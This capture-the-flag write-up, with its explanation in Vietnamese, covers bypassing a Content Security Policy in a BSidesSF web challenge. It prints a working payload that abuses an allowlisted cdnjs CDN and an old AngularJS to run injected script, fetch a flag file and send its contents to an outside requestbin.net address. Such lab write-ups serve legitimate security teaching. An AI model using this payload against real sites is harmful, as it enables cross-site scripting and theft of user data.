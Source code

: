 CSP 2
===
**Category:** Web

**Author:** itsc0rg1

**Point:** 101 (66 solves)

### Description
- `CSP challenges are back! Can you bypass the CSP to steal the flag? (flag path: /csp-two-flag)`
- Site: `https://csp-2-f692634b.challenges.bsidessf.net`

### Solution
- Ở thử thách vẫn là bypass csp, đầu tiên chúng ta kiểm tra header xem csp có gì mới
```
content-security-policy: script-src 'self' cdnjs.cloudflare.com 'unsafe-eval'; default-src 'self' 'unsafe-inline'; connect-src *; report-uri /csp_report
```
- Chúng ta thấy ở csp khác ở csp1 là có thêm `cloudflare` vì vậy chúng ta cần bypass `cloudflare CDN`. Ý tưởng là chúng ta sử dụng allowlisted cloudflare CDN để nhập một vài lệnh của Angular.

#### Payload
```
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
{{constructor.constructor('fetch('/csp-two-flag').then(x=>x.text()).then(x=>location='http://requestbin.net/r/27v5donq'+escape(x))');()}}}
</div>
```
- Referer: `https://blog.0daylabs.com/2016/09/09/bypassing-csp/`